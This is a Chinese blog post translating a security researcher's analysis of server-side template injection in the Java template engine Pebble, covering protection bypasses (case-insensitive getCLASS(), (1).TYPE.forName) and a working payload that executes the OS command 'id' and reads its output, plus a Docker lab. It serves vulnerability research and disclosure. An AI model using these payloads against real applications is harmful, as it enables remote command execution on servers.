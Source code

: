 ```yaml
---
title: 【翻译】从Pebble看服务端模板注入漏洞
date: 2019-09-27 13:37:57
tags: 翻译
categories: 技术
---
```


[![M178mD.md.jpg](https://s2.ax1x.com/2019/11/12/M178mD.md.jpg)](https://imgchr.com/i/M178mD)

SSTI并不是Web应用程序领域的一种新型漏洞。这些年来，从Flask/Jinja2模版到Twig模版，都存在着SSTI漏洞利用的先例。这篇译文是来自securitum公司首席安全研究员Michał Bentkowski的分析报告，是关于一款名为Pebble的Java 模板引擎的SSTI漏洞的分析与利用。

<!--more-->

下面译文开始

服务器端模板注入并不是Web应用程序领域的一个新漏洞。2015年，James Kettle曾在 PortSwigger blog发表[Server-Side Template Injection](https://portswigger.net/blog/server-side-template-injection)一文，使得服务端模板注入漏洞被大家熟知 。本文将由一个不太流行的Java模板引擎-[Pebble](https://pebbletemplates.io/)来引领大家探索服务端模板注入漏洞。

 

## Pebble与模板注入

根据官方文档，Pebble是一款Java 模板引擎，开发他的灵感来自于Twig。它具有很强的模板延续性和易于阅读的语法；出于安全性考虑，它内置自动转义功能，并包括对国际化的集成支持。它支持模板引擎中最常见的语法，其中变量替换使用{{variable}}完成。通常，在模板引擎中，可以包含任意的 Java 表达式。假设想将名为 name 的变量放在模板中并大写，这时可以使用 {name.toUpperCase()} 。

在 Java 中各种表达式语言中利用模板注入的常用方法是使用类似于以下内容的代码：

```java
variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls   -la')
```

基本上，Java中的每个对象都有一个称为 getClass()的方法，它可以通过检索特殊的 java.lang.class，轻而易举的获取任意 Java类的实例。因为它允许执行 OS 命令，下一步通常是获取 java.lang.Runtime 的实例。

```java
{{   variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la')   }}
```



## 尝试阻止在Pebble中获取任意类

Pebble 的作者针对攻击的添加了保护程序，并禁用了 getClass()方法调用。但是，有一种有趣的方法可以绕过保护，因为 Pebble 试图在表达式中精简查找method。假设有以下表达式：

```java
{{ someString.toUPPERCASE()   }}
```

因为正确的表达式是 toupperCase()而不toUPPERCASE()，所以此表达式并不运行。但是，因为Pebble 在设计时忽略了方法或属性名称中大小写问题，所以实际上使用上面的代码，也可以"正常"调用toUpperCase()。

所以，问题是当 Pebble 试图阻止访问getClass()时，它检查方法的名称时区分大小写。因此，可以只使用以下语句：

```java
{{ someString.getCLASS().forName(...)   }}
```

来绕过保护，拼写不敏感问题已经 2019 年 4 月 发布的3.0.9 版本中修复了。

几个月后，在研究其他一些与Java相关的内容并浏览文档时，我注意到有另一种内置方法可以访问java.lang.Class。Java 中的几个包装类（例如 java.lang.Integer）中有名为 TYPE 的字段，其Type为 java.lang.Class 自身；因此，执行任意代码的另一种方法如下所示：

```java
{{   (1).TYPE.forName(...) }}
```

我[于2019年7月向Pebble](https://github.com/PebbleTemplates/pebble/issues/454)报告[了该问题](https://github.com/PebbleTemplates/pebble/issues/454)，并使用与FreeMarker中相同的方法在master中修复了[该问题](https://github.com/PebbleTemplates/pebble/issues/454)相同的方法（即：在主控中修复了该问题方法调用黑名单）。因此，尽管我仍然可以执行{{ (1).TYPE }}，但是forName()方法被禁用，使得执行任意代码变得“不可能”。我将“不可能”一词用引号引起来，因为我认为仍然可以找到旁路绕过，但是我无法做到这一点。不过这将是可以进行研究的有趣空间。

 

## 读取命令的输出（Java 9+）

尽管在Java中很容易执行任意命令，但是在出现诸如服务器端模板注入之类漏洞的情况下，有时候会难以读取输出。它通常是通过遍历生成的 InputStream 或out-of-band传输层协议使用带外数据(传输层协议使用带外数据 译者注)来发送输出来完成的。

在研究Pebble时，我注意到在Java 9+中事情变得简单得多，因为现在`InputStream`有了便捷方法[readAllBytes](https://docs.oracle.com/javase/9/docs/api/java/io/InputStream.html#readAllBytes--)`来读取`返回字节数组，然后`byte[]`可以使用`String`构造函数转换为`String`。以下是漏洞利用代码：

 

```java
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```

 

结果：

![uKCtl6.png](https://s2.ax1x.com/2019/09/27/uKCtl6.png)

Pebble示例漏洞利用

## 玩转Pebble

如果您想玩转Pebble，我们准备了一个带有Docker容器的GitHub存储库，您可以在其中运行各种版本的Pebble。您可以在这里获取它：[https](https://github.com/securitum/research/tree/master/r2019_server-side-template-injection-on-the-example-of-pebble) : [//github.com/securitum/research/tree/master/r2019_server-side-template-injection-on-the-example-of-pebble](https://github.com/securitum/research/tree/master/r2019_server-side-template-injection-on-the-example-of-pebble)。

确保已经安装了`docker`和`docker-compose`，然后运行`docker-compose`，Web服务器就会在http：// localhost：4567上运行了。

![uKCN6K.png](https://s2.ax1x.com/2019/09/27/uKCN6K.png)

Docker应用程序的屏幕截图

## 总结

与许多的主流模板引擎相比，Pebble并没有本质上的不同；如果允许修改模板，则可以执行任意命令，因此建议确保未经授权的用户永远不能修改模板。
